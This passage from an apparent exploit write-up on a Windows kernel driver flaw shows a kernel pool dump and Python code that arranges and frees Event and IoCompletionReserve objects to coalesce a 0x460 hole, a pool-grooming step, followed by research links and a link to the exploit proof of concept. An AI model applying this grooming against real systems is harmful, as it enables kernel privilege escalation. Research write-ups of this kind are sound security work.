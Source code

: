  85d1f480 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f4c0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f520 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f560 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f5c0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f600 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f660 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f6a0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f700 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f740 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f7a0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f7e0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f840 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f880 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f8e0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f920 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f980 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f9c0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1fa20 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1fa60 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1fac0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1fb00 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1fb60 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1fba0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1fc00 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1fc40 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1fca0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1fce0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1fd40 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1fd80 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1fde0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1fe20 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1fe80 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1fec0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1ff20 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1ff60 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1ffc0 size:   40 previous size:   60  (Allocated)  Even (Protected)
{% endhighlight %}

<p class="cn" markdown="1">So we can see we have seperate freed chunks. But we want to coalesce them into a single 0x460 freed chunk. To achieve this, we need to set the `offset` for our chunks to 0x60 (The first pointing to 0xXXXXY060).</p>

{% highlight python %}
            bin = []

            # object sizes
            CreateEvent_size         = 0x40
            IoCompletionReserve_size = 0x60
            combined_size            = CreateEvent_size + IoCompletionReserve_size

            # after the 0x20 chunk hole, the first object will be the IoCompletionReserve object
            offset = IoCompletionReserve_size   
            for i in range(offset, offset + (7 * combined_size), combined_size):
                try:
                    # chunks need to be next to each other for the coalesce to take effect
                    bin.append(khandlesd[obj + i])
                    bin.append(khandlesd[obj + i - IoCompletionReserve_size])
                except KeyError:

[FuzzySec]: https://twitter.com/FuzzySec
[sickness416]: https://twitter.com/sickness416
[skylined]: https://twitter.com/berendjanwever
[ryujin]: https://twitter.com/ryujin
[hevd]: https://github.com/hacksysteam/HackSysExtremeVulnerableDriver
[windriver]: http://www.jungo.com/st/products/windriver/
[advisory]: /advisories/src-2017-0026
[exploit]: /pocs/src-2017-0026.py.txt
[beefs_tutorials]: http://www.fuzzysecurity.com/tutorials.html